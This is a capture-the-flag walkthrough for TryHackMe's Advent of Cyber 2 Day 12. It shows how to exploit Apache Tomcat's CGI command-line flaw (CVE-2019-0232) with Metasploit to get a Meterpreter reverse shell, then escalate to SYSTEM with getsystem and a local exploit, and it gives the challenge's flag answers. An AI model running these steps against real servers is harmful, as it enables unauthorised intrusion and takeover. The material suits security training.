 # Day 12 - Ready, set, elf

**Date:** 12, December, 2020

**Author:** Dhilip Sanjay S

---

## Learning Objectives
- [Common Gateway Interface (or) CGI](https://www.tcl.tk/man/aolserver3.0/cgi-ch1.htm)
    - Standard means of communicating and processing data between a client such as a web browser to a web server.
    - CGI Scripts are stored in `/cgi-bin/` folder. 
        - **Example:**`systeminfo.sh` shows the date and time.
    - By adding `?&<command>` to the URL, you can check whether your command is executed and you get the output.
        - For Linux- `ls`
        - For Windows - `systeminfo`
    - **Note:** Special characters will be [URL Encoded](https://www.techopedia.com/definition/10346/url-encoding)

- [Metasploit](https://www.metasploit.com/)
---

## Solutions
### 1) What is the version number of the web server?
- **Answer:** 9.0.17
- **Steps to Reproduce:** Use `nmap` or visit `<MACHINE_IP>:8080` on browser
---

### What CVE can be used to create a Meterpreter entry onto the machine?
- **Answer:** CVE-2019-0232 (Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Execution (Metasploit))
- **Steps to Reproduce:** 
    - Use `msfconsole` (Metasploit) or [Exploit-DB](https://www.exploit-db.com/)
    - Search `Apache Tomcat 9.0` - For Windows

---

### What are the contents of flag1.txt
- **Answer:** thm{whacking_all_the_elves}
- **Steps to Reproduce:** 
    - msf6>`search apache tomcat 9.0`
        ```bash        
        Matching Modules
        ================

        #  Name                                         Disclosure Date  Rank       Check  Description
        -  ----                                         ---------------  ----       -----  -----------
        0  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
        ```
        
    - msf6>`use 0`
    - `set LHOST <Your_TryHackMe_IP>`
    - `set RHOSTS <MACHINE_IP>`
    - `set TARGETURI /cgi-bin/elfwhacker.bat`
    - Verify the settings by typing `options`
    - Type `run`. You'll get the Meterpreter shell.
    - meterpreter>`shell`
    - Now you'll get a shell on the Target machine
    - To view the flag - `type flag1.txt`

### Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!
- **Privilege Escalation:**
    - [Offensive Security Article](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)
    - [Null Byte Article](https://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463/)

    ### 1. Using `getsystem` command
    - **Before Escalation:**
        ```powershell
        meterpreter > getuid
        Server username: TBFC-WEB-01\elfmcskidy    
        ```
    - **Escalation:**
        ```powershell
        meterpreter> use priv
        Loading extension priv...success.

        meterpreter> getsystem
        ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
        ```
    
    - **Post Esclation:**
        ```powershell
        meterpreter> getuid
        Server username: NT AUTHORITY\SYSTEM
        ```

    ### 2. Using Local Exploits 
    - If `getsystem` fails:
        ```powershell
        meterpreter > getsystem
        [-] priv_elevate_getsystem: Operation failed: Access is denied.        
        ```

    - Run the command:
     ```powershell
     meterpreter> run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
        [+] 10.10.xxx.xxx - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
        [+] 10.10.xxx.xxx - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
        [+] 10.10.xxx.xxx - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
        [+] 10.10.xxx.xxx - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.    
    ```
    - Only `exploit/windows/local/ms16_075_reflection` is used for privilege escalation.
    - Move the current meterpreter to background.
    - Set the options along with `session` and then run the above mentioned exploit using the command `exploit`.
    - Now you will get the shell with admin access.
    ```powershell
        meterpreter> getuid
        Server username: NT AUTHORITY\SYSTEM
    ```

---

[Back to Advent of Cyber 2](/TryHackMe/Advent%20of%20Cyber%202) 
